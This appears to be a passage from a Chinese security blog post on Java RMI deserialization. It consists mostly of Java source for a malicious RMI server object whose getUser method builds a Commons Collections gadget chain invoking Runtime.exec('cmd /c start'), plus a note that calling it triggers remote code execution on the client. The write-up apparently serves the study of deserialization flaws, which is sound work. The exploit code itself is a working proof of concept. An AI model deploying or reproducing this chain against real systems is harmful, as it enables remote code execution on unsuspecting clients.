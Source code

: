 ```
    public LocalUser(String name, int age) throws RemoteException {
        super();
        this.name = name;
        this.age = age;
    }

    @Override
    public Object getUser() throws RemoteException {
        InvocationHandler invocationHandler = null;
        try{
            String execArgs = "cmd /c start";
            final Transformer transformerChain = new ChainedTransformer(
                    new Transformer[]{ new ConstantTransformer(1) });
            final Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {
                            String.class, Class[].class }, new Object[] {
                            "getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {
                            Object.class, Object[].class }, new Object[] {
                            null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] { String.class }, new Object[]{execArgs}),
                    new ConstantTransformer(1) };
            Class transformer = Class.forName(ChainedTransformer.class.getName());
            Field iTransformers = transformer.getDeclaredField("iTransformers");
            iTransformers.setAccessible(true);
            iTransformers.set(transformerChain, transformers);
            final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
            final Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
            ctor.setAccessible(true);
            InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
            Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
            invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        }catch (Exception ignored){
            throw new RemoteException("生成poc代码失败");
        }
        return invocationHandler;
    }
}

```

![image-20241125195839023](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134826_rmi13.png)


当客户端调用服务端绑定的远程对象的getUser方法时，将反序列化服务端传来的恶意远程对象。此时将触发RCE

